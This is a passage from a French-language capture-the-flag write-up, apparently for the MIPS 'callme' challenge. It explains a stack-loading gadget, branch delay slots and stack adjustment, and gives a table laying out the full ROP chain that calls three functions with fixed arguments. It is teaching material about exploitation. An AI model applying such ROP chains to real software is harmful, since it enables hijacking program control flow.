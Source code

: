 Le seconde partie est nécessaire à l'enchainement sur la chaine de ROP.

Apres le "call" on reviens sur le nop. Et donc on charge dans `ra` sp+20 juste après la valeur posée pour `a0` c'est a dire là suite de notre chaine.

Mais ce n'est pas sufisant car a cette étape le pointeur de pile n'a pas bougé.
Il est nécessaire de l'ajuster avec :
    └           0x00400bd0      1800bd23       addi sp, sp, 0x18

On se demande cependant par quel miracle l'instruction `addi` s'execute puisqu'on saute avec le jr.

En fait c'est que les instructions de type saut semblent executer l'instuction suivante de manière simultannée.
D'ou le nop après `jarl`.
L'execution sous gdb de la chaine en fin d'article le montre.

Sans cet ajustement on risque au mieux d boucler sur callme_one.

Ce type d'enchainement n'est pas probable dans une code ordinaire.
Les outils comme ropper ou ROPgadget ne le détecte pas. C'est à nous de rechercher.

Un gadget d'appel.
Un gadget de lien **consécutif** de type "lw reg,(sp+xx); je reg".
Un gadget d'ajustement de la pile.

Ce qui nous donne :

| ROP entry | gadget | comment |
| ----------- | ------- | ----- |
| 0x00400bb0 | lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; ... |
| callme_one| | Pour $t9
| 0xd00df00d | | pour $a2
| 0xcafebabe | | pour $a1
| 0xdeadbeef | | pour $a0
| 0x00400bb0 | lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; ...| gadget de chargement
| callme_two| | Pour $t9
| 0xd00df00d | | pour $a2
| 0xcafebabe | | pour $a1
| 0xdeadbeef | | pour $a0
| 0x00400bb0 | lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; ...| gadget de chargement
| callme_three | | Pour $t9
| 0xd00df00d | | pour $a2
| 0xcafebabe | | pour $a1
| 0xdeadbeef | | pour $a0
